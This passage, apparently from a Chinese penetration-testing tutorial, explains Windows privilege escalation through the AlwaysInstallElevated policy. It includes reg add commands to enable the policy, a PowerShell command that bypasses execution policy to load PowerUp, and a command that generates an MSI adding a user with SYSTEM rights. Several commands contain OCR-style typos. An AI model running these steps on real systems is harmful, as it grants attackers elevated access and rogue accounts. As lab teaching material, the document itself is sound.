 2.启用：永远以最高特权进行安装

	注册表

​![image](assets/image-20241029170121-4hu2pqp.png)​

	命令行

```bash
reg add HKCU\SOFTWARE\Policies\Microsoft\Windows\installer /v AlwaysinstallElevated /t REG_DWORD /d 1
reg add HKLM\SOFTWARE\Policies\Microsoft\Windows\installer /v AlwaysinstallElevated /t REG DWORD /d 1
```

3.启用AlwavslnstalElevated后，可以通过命令行调用msiexec安装msi文件，msi文件内包含要执行的Payload，Payload将以System权限执行，设置好了后换个普通用户登录，测试是否启用AlwaysInstallElevated(实验前安装Powerup工具)，返True，说明己启用。

```bash
powershell.exe -exec bypass -Command "& {lmport-Module .\PowerUp.ps1;Get-RegistryAlwaysinstallElevated}"
```

4.导出msi文件，当前目录生成userAdd.msi（利用了 powerup生成的用户添加程序）

```bash
powershell.exe -exec bypass -Command "& {lmport-Module .\PowerUp.ps1;Write-UserAddMSI}"
```

​![image](assets/image-20241029170621-1v07suy.png)​
